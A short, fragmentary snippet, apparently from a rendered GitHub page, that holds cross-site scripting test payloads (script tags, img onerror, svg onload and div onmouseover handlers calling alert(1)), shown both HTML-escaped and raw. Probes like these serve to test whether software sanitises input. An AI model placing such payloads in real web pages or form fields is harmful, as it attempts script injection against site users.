 # -script-alert-1-script-img-src-x-onerror-alert-1-img-svg-onload-alert-1-svg-di
">'>&lt;script>alert(1);&lt;/script>&lt;img src="x" onerror="alert(1)">&lt;/img>&lt;svg onload="alert(1)">&lt;/svg>&lt;div onmouseover="alert(1)">here&lt;/div>

"><script>alert(1);</script><img src="x" onerror="alert(1)"></img>
1
